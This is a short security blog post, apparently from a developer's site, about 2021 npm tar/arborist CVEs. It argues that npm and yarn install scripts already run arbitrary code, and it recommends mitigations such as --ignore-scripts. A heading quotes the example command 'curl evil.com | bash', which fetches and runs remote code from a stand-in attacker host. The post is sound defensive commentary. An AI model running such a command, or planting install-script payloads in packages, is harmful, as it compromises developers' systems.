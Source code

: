 ```yaml
---
title: npm install is curl | bash
description: Remote code execution as a feature
date: 2021-09-09
---
```


Today, GitHub published [a write-up on a number of CVEs](https://github.blog/2021-09-08-github-security-update-vulnerabilities-tar-npmcli-arborist/)[^1] in the npm packages `tar` and `@npmcli/arborist`. In their own words,

> The npm CLI aims to enforce certain security boundaries on package installation. One of these boundaries is that a package’s contents will only be written to the appropriate folder within the `node_modules` directory hierarchy. Several of the `tar` and `@npmcli/arborist` vulnerabilities will cross that security boundary and may result in unexpected arbitrary file overwrites and subsequent code execution when installing untrusted packages.

This sounds pretty scary: "arbitrary file overwrites and subsequent code execution" is the kind of phrase that you don't want to see in a CVE description. The problem is that by default, npm allows this to happen anyway.

## postinstall: "curl evil.com | bash"

npm (and yarn) will execute arbitrary code when you install a package via [install scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#npm-install). A valid use-case is to build native code on installation, or do some other environment-specific setup, though these scripts have also been used to [show ads](https://www.zdnet.com/article/npm-bans-terminal-ads/) and, of course, as an [attack](https://blog.sonatype.com/bladabindi-njrat-rat-in-jdb.js-npm-malware) [vector](https://snyk.io/blog/npm-security-malicious-code-in-oss-npm-packages/). In fact, install scripts [were the most popular route for malware](https://blog.npmjs.org/post/188385634100/npm-security-insights-api-preview-part-2-malware) as of 2019[^2].

Installing a single malicious package is enough to get reasonably pwned. The risk is mitigated by npm’s moderation of the registry — they’re quick to remove malware once discovered. This works pretty well, though I worry about the day someone uses this to [publish a self-replicating worm](https://blog.npmjs.org/post/141702881055/package-install-scripts-vulnerability).

This attack vector isn’t unique to npm. Other package managers like pip and RubyGems allow for the same thing. As developers, we’re not as cautious when installing packages from these registries as when we use `curl | bash`, though we should be[^3].

## Mitigations

When installing an untrusted package, run `npm install` or `yarn add` with the `--ignore-scripts` flag. If, like me, you tend to forget this, you can set npm/yarn to never run scripts with `{npm,yarn} config set ignore-scripts true`.

I also recommend inspecting the source code of a package before you install it. I like to use [xray.computer](https://xray.computer/source) for this, because I made it.

And, of course, update your npm CLI to fix the CVEs that let packages bypass this setting.

[^1]: Specifically, CVE-2021-32803, CVE-2021-32804, CVE-2021-37701, CVE-2021-37712, CVE-2021-37713, CVE-2021-39134, and CVE-2021-39135.
[^2]: No more recent data is available, and work on npm’s Security Insights API/malware database seems to have stalled.
[^3]: You do get the added security feature of integrity checking when installing via a package manager as opposed to `curl | bash`. This prevents e.g. MITM attacks, but don’t forget that packages in open-source registries are mostly trash, with the occasional piece of malware or genuinely useful code floating around.
